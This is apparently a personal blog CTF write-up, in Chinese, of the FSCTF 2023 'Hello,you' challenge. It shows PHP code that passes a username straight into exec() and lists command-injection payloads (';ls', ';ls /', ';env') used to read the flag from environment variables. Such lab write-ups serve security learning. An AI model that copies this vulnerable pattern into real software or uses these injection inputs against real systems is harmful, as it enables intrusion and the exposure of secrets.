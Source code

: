 # 【FSCTF 2023】Hello,you


# [FSCTF 2023]Hello,you

&gt; 我是在nss做的，好像原题flag位置不一样。
&gt;
&gt; 原题好像在根目录，但是nss这个在env

## 思路

* 看页面源码可以得到部分源码

  ```
  &lt;?php
  $input = isset($_GET[&#39;input&#39;]) ? $_GET[&#39;input&#39;] : &#39;&#39;;
  
  // 执行命令并返回结果
  function executeCommand($command) {
  $output = &#39;&#39;;
  exec($command, $output);
  return $output;
  }
  
  // 注册用户
  function registerUser($username) {
  // .........
  $command = &#34;echo Hello, &#34; . $username;
  $result = executeCommand($command);
  return $result;
  }
  
  // 处理注册请求
  if (isset($_POST[&#39;submit&#39;])) {
  $username = $_POST[&#39;username&#39;];
  $result = registerUser($username);
  }
  ```
  
* 可以知道是`exec`直接执行指令

* 直接使用指令无法输出

  这里的解释是一次执行多个命令，命令之间需要用连接符连接
  
  &gt; 好像是这么说的吧，不确定
  &gt;
  &gt; 但是肯定是前面要加`;`才能执行
  
* 根目录没有要在环境里面找


## Payload

```
;ls
;ls /
;env
```

## 总结

* RCE

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-fsctf-2023helloyou/  

